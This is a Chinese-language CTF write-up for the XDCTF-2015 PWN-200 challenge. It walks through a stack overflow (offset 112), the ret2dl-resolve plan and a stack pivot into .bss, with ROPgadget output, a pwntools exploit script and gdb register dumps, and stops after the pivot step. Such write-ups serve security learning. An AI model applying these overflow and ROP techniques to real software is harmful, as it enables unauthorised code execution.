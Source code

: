 # XDCTF-2015-PWN-200

首先检查一下文件吧

```c
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

再用IDA Pro查看一下源代码

```c
int __cdecl main()
{
  int buf; // [esp+2Ch] [ebp-6Ch]
  int v2; // [esp+30h] [ebp-68h]
  int v3; // [esp+34h] [ebp-64h]
  int v4; // [esp+38h] [ebp-60h]
  int v5; // [esp+3Ch] [ebp-5Ch]
  int v6; // [esp+40h] [ebp-58h]
  int v7; // [esp+44h] [ebp-54h]

  buf = 1668048215;
  v2 = 543518063;
  v3 = 1478520692;
  v4 = 1179927364;
  v5 = 892416050;
  v6 = 663934;
  memset(&v7, 0, 0x4Cu);
  setbuf(stdout, (char *)&buf);
  write(1, &buf, strlen((const char *)&buf));
  sub_8048484();
  return 0;
}
```

```c
ssize_t sub_8048484()
{
  char buf; // [esp+1Ch] [ebp-6Ch]

  setbuf(stdin, &buf);
  return read(0, &buf, 0x100u);
}
```

显然我们程序有一个很明显的栈溢出漏洞的。这题我们不考虑我们有 **libc** 的情况。我们可以很容易的分析出溢出偏移为 0x6C + 4 = 112

## 思路

- 为了能够实现利用我们要能控制eip指向 .**rel.plt （PLT[0]）**传递index_arg函数也就是对应的偏移，对应函数的**(.plt+6)**位置 push进去的函数的**offset**。通过下面这个指令找到 对应的 **reloc**

- 应该eip已经在**PLT[0]** 的位置所以 栈上我们可以布置好那个我们要利用的**indx_arg**从而 让 定位 **reloc**  时定位到 我们可以控制的 一个地方。

  ```
  const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
  ```

- 接着在可控区域伪造 reloc 的 offset 和 info 从而让 .sym 落在我们可控的区域 

  ```
  const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
  ```

- 伪造的 reloc的 info 最低位 要为 7 ( R_386_JUMP_SLOT=7 ) 

  ```
  assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
  ```

- 然后我们让这个字符串落在我们可控的地方也就是我们能伪造的地方.**dynsym**->**st_name** 为字符串的偏移。从而让让其定位为我们 需要的函数如 system。 

  ```
  .dynstr + .dynsym->st_name  （.dynsym + Elf32_Sym_size(0x10) * num）
  ```

鉴于 **pwntools** 本身并不支持对重定位表项的信息的获取。这里我们手动看一下

```c
syc@ubuntu:~/Documents/Untitled Folder 3$ readelf -r pwn200

Relocation section '.rel.dyn' at offset 0x300 contains 3 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff0  00000306 R_386_GLOB_DAT    00000000   __gmon_start__
0804a020  00000805 R_386_COPY        0804a020   stdin@GLIBC_2.0
0804a040  00000605 R_386_COPY        0804a040   stdout@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x318 contains 5 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   setbuf@GLIBC_2.0
0804a004  00000207 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
0804a008  00000307 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a00c  00000407 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a010  00000507 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0
```

## 栈迁移

这道题首先 我们要溢出。为了让构造的 ROP 链的长度合适，这里我们可以用到 **栈迁移**

- 首先我们要 将我们想迁移到的地址 覆盖到 程序的 ebp 上这样 执行下一个 汇编指令时 会将 这个值 赋值给 **ebp （pop ebp）**

- 然后我们要在下面调用一次 **leave ret (mov esp, ebp ; pop ebp ;)**这样我们就能将esp 也迁移过去 从而实现栈迁移 

用 ROPgadget 工具找到 我们需要的 汇编指令的地址

```c
syc@ubuntu:~/Documents/Untitled Folder 3$ ROPgadget --binary pwn200 --only 'pop|ret'
Gadgets information
============================================================
0x08048453 : pop ebp ; ret
0x08048452 : pop ebx ; pop ebp ; ret
0x0804856c : pop ebx ; pop edi ; pop ebp ; ret
0x080485cc : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804836c : pop ebx ; ret
0x0804856d : pop edi ; pop ebp ; ret
0x080485cd : pop esi ; pop edi ; pop ebp ; ret
0x0804834b : ret
0x08048532 : ret 0xb8
```

```c
syc@ubuntu:~/Documents/Untitled Folder 3$ ROPgadget --binary pwn200 --only 'leave|ret'
Gadgets information
============================================================
0x08048481 : leave ; ret
0x0804834b : ret
0x08048532 : ret 0xb8
```

找到所需要的 ROP 链的部分,如果我们将payload 写为下面这样运行就能实现 栈迁移,将 ebp 覆盖为我们想要迁移过去的值 ，然后执行 leave_ret 就能将栈迁移过去

```python
from pwn import *
p = process('./pwn200')
elf = ELF('./pwn200')
gdb.attach(p)
offset_ebp = 108
offset_ret = 112
ppp_ret = 0x080485cd 
pop_ebp_ret = 0x08048453 
leave_ret = 0x08048481 
bss_addr = 0x804a020
stack_size = 0x800
base_stage = bss_addr + stack_size 
p.recvuntil('Welcome to XDCTF2015~!\n')
payload = ''
payload+= 'a'*108 
payload+= p32(base_stage) 
payload+= p32(leave_ret)
p.sendline(payload)
p.interactive()
```

EBP已经被我们修改为布置好的**fak_stack**地址

```c
──────────────────────────────────────[ REGISTERS ]───────────────────────────────────────
 EAX  0x75
 EBX  0xfffdad54 ◂— 0x0
 ECX  0xfffdac9c ◂— 0x61616161 ('aaaa')
 EDX  0x100
 EDI  0xfffdad54 ◂— 0x0
 ESI  0xf7ef7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
 EBP  0x804a820 ◂— 0x0
 ESP  0xfffdad0c —▸ 0x8048481 ◂— leave  
 EIP  0x80484bd ◂— ret    
────────────────────────────────────────[ DISASM ]────────────────────────────────────────
   0x80484bc    leave  
 ► 0x80484bd    ret    <0x8048481>
```

**ret**地址为 **leave ret**的地址将**ebp** 的值交给 **esp** 从而达到栈迁移

```c
──────────────────────────────────────[ REGISTERS ]───────────────────────────────────────
 EAX  0x75
 EBX  0xfffdad54 ◂— 0x0
 ECX  0xfffdac9c ◂— 0x61616161 ('aaaa')
 EDX  0x100
 EDI  0xfffdad54 ◂— 0x0
 ESI  0xf7ef7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
 EBP  0x0
 ESP  0x804a824 ◂— 0x0
 EIP  0x8048482 ◂— ret    
────────────────────────────────────────[ DISASM ]────────────────────────────────────────
   0x80484bc    leave  
   0x80484bd    ret    
    ↓
   0x8048481    leave  
 ► 0x8048482    ret    <0>
```

